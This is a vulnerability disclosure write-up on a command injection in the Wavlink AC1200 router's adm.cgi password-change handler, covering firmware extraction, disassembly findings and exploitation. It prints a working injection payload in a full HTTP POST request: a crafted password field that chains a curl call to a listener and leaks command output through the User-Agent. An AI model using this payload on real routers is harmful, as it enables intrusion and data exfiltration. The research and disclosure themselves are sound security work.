



## Overview
During recent security research for the Wavlink AC1200 (Model: WL-WN532A3) a Post-Authentication Command Injection Vulnerability was identified in the "/cgi-bin/adm.cgi" endpoint.  This vulnerability could enable malicious actors who have compromise the credentials for the router, to run arbitrary shell commands.  A CVE Number is currently awaiting assignment for this vulnerability.

## Extracting Firmware
Upon receiving the Wavlink AC1200 Router, the loaded firmware was identified as 'M32A3_V1410_230602'.  However, this specific firmware version was not available via the official Wavlink support website.  Wavlink only provided one version of firmware, M32A3_V1410_240222, which is roughly eight months more recent.  During analysis, it was decided to research the newer available firmware, while attempting to exploit any vulnerabilities on the old version in order to confirm if any identified vulnerabilities affected both versions of firmware.  This also avoided the need for manually extracting firmware off the device.  Extracting the root file system was simply done by using the extract functionality of 'binwalk'. The M32A3_V1410_240222 firmware is available for download from the following link: https://docs.wavlink.xyz/Firmware/fm-532a3/




## Vulnerability Details
Initial research was focused around identifying the attack surface for command injections.  While many calls to `system`, `popen`, and various imported helper functions to run system commands were called, many were simply calls to premade bash scripts to which injection was not possible.  However, one call to `system` in the `set_sys_adm` function within `/etc_ro/lighttpd/www/cgi-bin/adm.cgi` immediately raised suspicions upon first glance due to passing a char array, that was formatted using `sprintf`.  Upon further inspection, it was determined that the function attempted to sanitize the input of a user provided password by looking for the `;` character.  However, this sanitization fails to account for other command injection techniques.

The image below shows the disassembly of `set_sys_adm`.  Some variable names have been changed in order to assist in analysis of this function.  From the image, you can see that the function gets the `password` field from a web request on line 40, then ensures it is neither `NULL`, contains a semi-colon (`;`), or is the same value as the previously stored password on lines 58-60.  This value is then passed to a `sprintf` call which builds out a command as such: `echo "<username.:<password>" > /etc/lighttpd.user`.  This formatted string is then immediately passed into call to `system`.



This was a great find, but it was time to figure out where this vulnerability could be accessed from the web portal.  It was quickly identified that this function was called when resetting the password from the "Login Password" page.


After identifying this web page, the HTTP POST Request was captured with Burp Suite.  The request looks as such:
```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 82
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/set_safety.shtml?r=12980
Accept-Encoding: gzip, deflate, br
Cookie: session=420022404
Connection: keep-alive

page=sysAdm&username=admin&SYSPASS=asdfasdf&newpass=hellohello&NEWPASS2=hellohello
```
## Exploiting the Vulnerability
Having now understand the Command Injection Vulnerability at hand, and identifying where the vulnerability is accessible from, it was time to make an exploitation attempt.  The following request was sent to force the router to make a curl request to a netcat listener, while also exfilling data via the User Agent field.  The command attempting to be before URL-Encoding and placing in the request looks as follows: `curl http://192.168.1.6:4567/ -A $(pwd)`.  The command placed in a HTTP POST request looks as follows:

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 82
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/set_safety.shtml?r=76755
Accept-Encoding: gzip, deflate, br
Cookie: session=1783394974
Connection: keep-alive

page=sysAdm&username=admin&SYSPASS=asdfasdf&newpass=hellohello\"+%26%26+curl+http%3a//192.168.1.6%3a4567+-A+$(pwd)&NEWPASS2=hellohello
```


After sending the request we get confirmation that the vulnerability is exploitable.

